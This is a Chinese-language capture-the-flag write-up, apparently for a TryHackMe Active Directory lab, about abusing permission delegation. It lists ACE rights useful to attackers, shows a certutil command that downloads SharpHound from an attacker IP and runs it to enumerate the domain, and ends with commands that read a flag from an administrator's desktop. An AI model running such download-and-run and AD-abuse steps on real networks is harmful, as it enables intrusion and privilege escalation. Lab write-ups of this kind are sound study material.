 ssh登录
```
ssh za.tryhackme.loc\\max.smith@thmwrk1.za.tryhackme.loc
```

# Task 2  Exploiting Permission Delegation


ACE

**ForceChangePassword**：我们可以在不知道用户当前密码的情况下设置用户当前密码。
**AddMembers**：我们有能力将用户（包括我们自己的帐户）、组或计算机添加到目标组。
**GenericAll**：我们可以完全控制对象，包括更改用户密码、注册 SPN 或将 AD 对象添加到目标组的能力。
**GenericWrite**：我们可以更新目标对象的任何非保护参数。例如，这可以让我们更新 scriptPath 参数，这将导致脚本在用户下次登录时执行。
**WriteOwner**：我们有能力更新目标对象的所有者。我们可以让自己成为所有者，从而获得对该对象的额外权限。
**WriteDACL**：我们有能力将新的 ACE 写入目标对象的DACL。例如，我们可以编写一个 ACE，授予我们的帐户对目标对象的完全控制权。
**AllExtendedRights**：我们能够针对目标对象执行与扩展 AD 权限相关的任何操作。例如，这包括强制更改用户密码的能力。


thm提供的json我本地无法识别，重新收集一份
```
PS C:\Users\max.smith\Documents> certutil -urlcache -split -f "http://10.50.57.67/SharpHound.exe" SharpHound.exe   
****  Online  ****
  000000  ...
CertUtil: -URLCache command completed successfully.
PS C:\Users\max.smith\Documents> .\SharpHound.exe -c all
-----------------------------------------------
Initializing SharpHound at 9:43 AM on 8/11/2022
-----------------------------------------------

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container


[+] Creating Schema map for domain ZA.TRYHACKME.LOC using path CN=Schema,CN=Configuration,DC=ZA,DC=TRYHACKME,DC=LOC 
[+] Cache File not Found: 0 Objects in cache

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 17 MB RAM
[+] Creating Schema map for domain TRYHACKME.LOC using path CN=Schema,CN=Configuration,DC=TRYHACKME,DC=LOC
Status: 5128 objects finished (+5128 512.8)/s -- Using 58 MB RAM
Enumeration finished in 00:00:10.7635721
Compressing data to .\20220811094325_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 9:43 AM on 8/11/2022! Happy Graphing!

PS C:\Users\max.smith\Documents> ls


    Directory: C:\Users\max.smith\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        8/11/2022   9:43 AM         307482 20220811094325_BloodHound.zip
-a----        8/11/2022   9:42 AM         833536 SharpHound.exe
-a----        8/11/2022   9:43 AM        1092647 Y2Y1YjhlMjMtNjA5Ny00YjA5LWFmOTMtZTc5YjA1NTU3YzNm.bin


```


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> cd c:/users/administrator/desktop
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> ls
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> type flag2.txt